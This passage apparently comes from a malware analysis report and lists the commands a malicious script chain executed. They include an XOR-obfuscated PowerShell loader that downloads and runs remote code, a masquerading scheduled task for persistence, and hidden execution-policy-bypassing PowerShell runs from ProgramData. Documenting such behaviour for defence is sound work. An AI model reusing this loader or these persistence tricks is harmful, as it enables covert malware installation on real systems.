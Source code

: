 ![Processes Tree](/assets/images/zoom/Processes_tree.png)
*Figure 12: Process Tree Representation*



Some of the commands executed by the scripts are listed below.

```powershell

Executed Commands

    "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" "$ReDrO = InvOkE-eXpreSSion ( ( [char[]] (62 , 72,39,61 ,83 , 127,66,50,84 , 127 , 61 , 33 , 62, 72, 95, 58, 39, 58 , 62 ,72 ,49 , 61,77 , 55, 85, 88,80, 61, 33 , 62, 72 ,95 ,94, 58, 39,58 ,62, 72, 95,49, 61 , 127 ,89,78 , 58 ,84,127,78,52 , 77 , 61, 33, 62,74 ,91 , 89 , 39 ,61, 127 , 88 , 89 ,86, 61, 33,62 ,98,98, 58 ,39 ,58, 62, 74, 91 , 89 , 49, 61, 83, 127,84, 61,33, 62,72,85,58, 39 ,58 , 62 ,98 , 98 ,49,61,78,51 , 52, 94 ,85 ,77 ,84, 86 , 85,61,33, 62, 96 , 96, 39 , 61 ,85, 90,42 , 50 ,60 ,50 ,61 ,61 , 114,110 , 110 , 106, 105,32, 53, 53 , 106,123 ,105, 110 , 127,52,127,127, 53, 104, 53,40, 92,94,96,126, 53, 42, 61, 61,51 , 61 , 52,72, 127 ,74,86 , 91, 89 , 127 ,50,61,85 ,90,42, 50, 60, 61 ,54 , 61, 91 ,94, 73,78 , 72, 83 ,84 ,93,61,51, 33 ,115 ,127,98 , 50,62,72 ,95, 94 , 49 , 62,72 , 85 , 49, 62 ,96 , 96 , 51 ) | %{[char] ( $_-BXOR '0x1a' ) } )-JOIN'') ; powershell $ReDrO"
    powershell "$ReDrO = InvOkE-eXpreSSion ( ( [char[]] (62 , 72,39,61 ,83 , 127,66,50,84 , 127 , 61 , 33 , 62, 72, 95, 58, 39, 58 , 62 ,72 ,49 , 61,77 , 55, 85, 88,80, 61, 33 , 62, 72 ,95 ,94, 58, 39,58 ,62, 72, 95,49, 61 , 127 ,89,78 , 58 ,84,127,78,52 , 77 , 61, 33, 62,74 ,91 , 89 , 39 ,61, 127 , 88 , 89 ,86, 61, 33,62 ,98,98, 58 ,39 ,58, 62, 74, 91 , 89 , 49, 61, 83, 127,84, 61,33, 62,72,85,58, 39 ,58 , 62 ,98 , 98 ,49,61,78,51 , 52, 94 ,85 ,77 ,84, 86 , 85,61,33, 62, 96 , 96, 39 , 61 ,85, 90,42 , 50 ,60 ,50 ,61 ,61 , 114,110 , 110 , 106, 105,32, 53, 53 , 106,123 ,105, 110 , 127,52,127,127, 53, 104, 53,40, 92,94,96,126, 53, 42, 61, 61,51 , 61 , 52,72, 127 ,74,86 , 91, 89 , 127 ,50,61,85 ,90,42, 50, 60, 61 ,54 , 61, 91 ,94, 73,78 , 72, 83 ,84 ,93,61,51, 33 ,115 ,127,98 , 50,62,72 ,95, 94 , 49 , 62,72 , 85 , 49, 62 ,96 , 96 , 51 ) | %{[char] ( $_-BXOR '0x1a' ) } )-JOIN'') ; powershell $ReDrO"
    C:\Windows\sysWOW64\wbem\wmiprvse.exe -secured -Embedding
    C:\Windows\system32\wbem\wmiprvse.exe -secured -Embedding
    "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" "MSFT_ScheduledTask (TaskName = "MicroSoftVisualsUpdater", TaskPath = "\")"
    C:\Windows\System32\svchost.exe -k netsvcs -p
    C:\Windows\system32\SecurityHealthService.exe
    C:\Windows\System32\WScript.exe "C:\ProgramData\Music\Visuals\VsLabs.vbs"
    "C:\ProgramData\Music\Visuals\VsEnhance.bat"
    C:\Windows\system32\cmd.exe /c ""C:\ProgramData\Music\Visuals\VsEnhance.bat" "
    C:\ProgramData\Music\Visuals\VsEnhance.bat
    cmd /c Powershell -noP -W hidden -ep byPass -NONI "C:\ProgramData\Music\Visuals\VsLabsData.ps1"
    Powershell -noP -W hidden -ep byPass -NONI "C:\ProgramData\Music\Visuals\VsLabsData.ps1"
```